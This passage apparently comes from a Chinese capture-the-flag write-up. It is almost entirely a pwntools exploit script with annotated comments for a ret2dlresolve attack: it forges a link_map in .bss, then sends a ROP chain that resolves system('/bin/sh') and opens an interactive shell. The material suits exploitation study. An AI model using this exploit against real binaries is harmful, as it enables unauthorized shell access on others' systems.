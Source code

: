 ```python
dynstr =0x000000000000000000004004d8 #read_got地址，不重要，dynstr只要求可读即可
fake_link_map_addr=bss + 0x100 #伪造linkmap的地址
fake_dyn_strtab_addr = fake_link_map_addr + 0x8 #strtab的地址
fake_dyn_strtab= p64(0) + p64(dynstr) #构造strtab，在strtab中，第一个元素都是0，第二个元素就是dynstr
fake_dyn_symtab_addr = fake_link_map_addr + 0x18 #symtab的地址
fake_dyn_symtab=p64(0) + p64(read_got - 0x8) #symtab要求其中的st_other值为0，st_value为目标函数地址-8，st_other在前八个字节中，st_value是第二个八字节
fake_dyn_rel_addr = fake_link_map_addr + 0x28 #伪造dyn_rel的地址
fake_dyn_rel=p64(0)+p64(fake_link_map_addr+0x38) #dyn_rel第一个八字节是0，第二个八字节是rel.plt的地址
fake_rel=p64(r_offset) + p64(0x7) +p64(0) #即rel.plt的构造，Rela->r_offset,正常情况下这里应该存的是got表对应条目的地址，解析完成后在这个地址上存放函数的实际地址，此处我们只需要设置一个可读写的地址即可，7是r_info为了绕过函数的检查，0是填充
fake_link_map=p64(l_addr)#偏移
fake_link_map+= fake_dyn_strtab#strtab
fake_link_map+=fake_dyn_symtab#symtab
fake_link_map+= fake_dyn_rel#jmp_rel
fake_link_map+=fake_rel#rel
fake_link_map= fake_link_map.ljust(0x68,b'\x00')#偏移
fake_link_map+=p64(fake_dyn_strtab_addr)#在linkmap偏移0x68的地方存放strtab_addr
fake_link_map +=p64(fake_dyn_symtab_addr)#在linkmap偏移0x70的地方存放symtab_addr
fake_link_map += b'/bin/sh'.ljust(0x80,b'\x00')#填充，顺便放入"/bin/sh"字符串
fake_link_map +=p64(fake_dyn_rel_addr)#在linkmap偏移0xf8的地方存放jmp_rel_addr
sleep(1)
p.send(fake_link_map)#发送伪造的linkmap
sleep(1)
rop=b'A'*0x38+p64(pop_rdi) +p64(fake_link_map_addr +0x78) +p64(plt_load) +p64(fake_link_map_addr) +p64(0)#再次读入，在伪造linkmap+0x78的地方放入了/bin/sh字符串，现在将其弹入rdi中，之后调用dlresolve，由于函数特性，其两个参数均由栈来传递，后面再压入两个参数，即伪造的linkmap地址和reloc_arg（这是由我们构造的，为了方便一般构造为0）
p.send(rop)#发送构造好的payload即可触发dlreslove，将system函数作为read引用，参数为/bin/sh
p.interactive()
```

构造的linkmap框架图如下所示

![image-20230423205519858](C:\Users\w1z4rd\AppData\Roaming\Typora\typora-user-images\image-20230423205519858.png)